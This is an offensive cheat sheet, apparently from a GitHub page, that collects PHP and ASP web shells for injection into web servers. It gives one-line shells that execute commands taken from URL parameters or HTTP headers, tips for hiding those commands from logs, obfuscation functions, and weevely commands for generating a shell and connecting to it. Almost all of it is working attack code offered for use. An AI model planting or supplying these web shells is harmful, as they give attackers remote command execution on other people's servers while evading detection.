 # WebShells

PHP
This code can be injected into pages that use php.

Execute one command
- <?php system("whoami"); ?>

Take input from the url paramter. shell.php?cmd=whoami
- <?php system($_GET['cmd']); ?>

The same but using passthru
- <?php passthru($_GET['cmd']); ?>

For shell_exec to output the result you need to echo it
- <?php echo shell_exec("whoami");?>

Exec() does not output the result without echo, and only output the last line. So not very useful!
- <?php echo exec("whoami");?>

Instead to this if you can. It will return the output as an array, and then print it all.
- <?php exec("ls -la",$array); print_r($array); ?>

preg_replace(). This is a cool trick
- <?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

Using backticks
- <?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

Using backticks
- <?php echo `whoami`; ?>

You can then call then execute the commands like this:
http://192.168.1.103/index.php?cmd=pwd
Make it stealthy
We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we can pass them through other header-paramters. The use tampterdata or burpsuite to insert the commands. Or just netcat or curl.
- <?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
- <?php system($_SERVER['HTTP_USER_AGENT'])?>

I have had to use this one
- <?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>

Obfuscation
The following functions can be used to obfuscate the code.
eval()
assert()
base64()
gzdeflate()
str_rot13()

Weevely:
Using weevely we can create php webshells easily.
weevely generate password /root/webshell.php
Not we execute it and get a shell in return:
weevely "http://192.168.1.101/webshell.php" password

ASP
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
